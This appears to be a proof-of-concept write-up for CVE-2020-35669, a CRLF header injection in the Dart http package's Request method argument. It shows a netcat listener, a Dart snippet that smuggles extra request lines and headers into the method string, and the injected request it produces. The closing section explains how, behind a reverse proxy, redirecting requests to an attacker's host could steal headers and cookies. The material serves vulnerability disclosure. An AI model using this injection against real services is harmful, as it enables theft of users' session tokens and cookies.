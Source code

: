 # [CVE-2020-35669](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-35669)

## dummy server
please run dummy server using 1st terminal
```bash
sudo nc -l 127.0.0.1 80 
```

## apply given diff
```diff
diff --git a/main.dart b/main.dart
index 8c78291..a46f4d0 100644
--- a/main.dart
+++ b/main.dart
@@ -4,7 +4,7 @@ import 'package:http/src/request.dart';
 void main() async {
   var r = Request(
       "GET http://example.com/ HTTP/1.1\r\nHost: example.com\r\nLLAMA:",
-      Uri(scheme: "http", path: "/llama", host: "google.com"));
+      Uri(scheme: "http", path: "/llama", host: "localhost"));
   var rs = await r.send();
   var resp = await Response.fromStream(rs);
   print('${resp.body}');

```

## run dummy app
please execute `main.dart` using 2nd terminal
```bash
dart run main.dart
```

## result
nc should recieve given request
```http
GET HTTP://EXAMPLE.COM/ HTTP/1.1
HOST: EXAMPLE.COM
LLAMA: /llama HTTP/1.1
user-agent: Dart/2.10 (dart:io)
accept-encoding: gzip
content-length: 0
host: localhost
```

### Important piece of code
```dart
  var r = Request(
      "GET http://example.com/ HTTP/1.1\r\nHost: example.com\r\nLLAMA:",
      Uri(scheme: "http", path: "/llama", host: "google.com"));
  var rs = await r.send();
```

## Critical path

Assuming `diff` showed above was not applied and **user is behind `rev-proxy`** Website served by `example.com` was reached.
```bash
dart run main.dart
<!doctype html>
<html>
<head>
    <title>Example Domain</title>

    <meta charset="utf-8" />
    ...
    ... blah blah blah
    ...

```
### Why this is a security risk
If the developer is using Request to abstract generating HTTP calls and he's accepting a method param from the user, the user can do some magic like header injection or path forgery.
This can be exploited in many ways and seems to be quite important especially in case there is a reverse proxy is in place. A proxy may just pass someone's request to any host base on `host` header. 
Let's assume I'm replacing example.com with my-evil-uservice.org and the victim is working in a company behind the proxy. This means I can redirect calls with headers/cookies(tokens) and blah blah blah. Base on this, stealing calls with all headers/cookies can happen.
